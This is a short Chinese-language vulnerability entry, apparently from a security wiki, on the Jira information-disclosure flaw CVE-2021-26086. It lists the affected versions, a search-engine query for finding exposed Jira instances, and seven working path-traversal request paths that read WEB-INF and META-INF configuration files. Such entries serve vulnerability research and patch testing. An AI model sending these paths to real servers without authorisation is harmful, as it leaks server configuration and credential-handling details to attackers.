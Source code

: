 # Atlassian Jira 敏感信息泄露 CVE-2021-26086

## 漏洞描述

JIRA是Atlassian公司出品的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。

参考链接：

- https://jira.atlassian.com/browse/JRASERVER-72695

## 漏洞影响

```
version < 8.5.14
8.6.0 ≤ version < 8.13.6
8.14.0 ≤ version < 8.16.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

poc：

```
/s/cfx/_/;/WEB-INF/web.xml
/s/cfx/_/;/WEB-INF/decorators.xml
/s/cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

